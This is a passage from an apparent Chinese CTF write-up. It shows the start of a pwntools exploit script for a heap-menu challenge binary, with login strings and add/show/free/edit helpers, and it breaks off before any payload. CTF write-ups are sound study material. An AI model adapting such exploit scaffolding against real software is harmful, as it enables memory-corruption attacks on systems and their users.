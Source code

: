 [![](assets/1699929779-24595f61cdc78618598e2a759d28e9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001511-28b1c74c-7f1b-1.png)

完整exp：

```plain
from pwn import *
ex = "./pwn"
#context.log_level='debug'
p = process(ex)
elf = ELF(ex)

libc = elf.libc


p.send("LOGIN | r00t QWB QWXFadmin")
#gdb.attach(p,"b *$rebase(0x1DF3)")
#pause()
def dbg():
    gdb.attach(p)
    pause()

def cat(choice):
    p.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff\xff\xff\xff")
    p.sendlineafter("plz input your cat choice:\n",str(choice))

def add(idx,size,content):
    cat(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",content)


def show(idx):
    cat(3)
    p.sendlineafter(":",str(idx))

def free(idx):
    cat(2)
    p.sendlineafter(":",str(idx))



def edit(idx,content):
    cat(4)
```
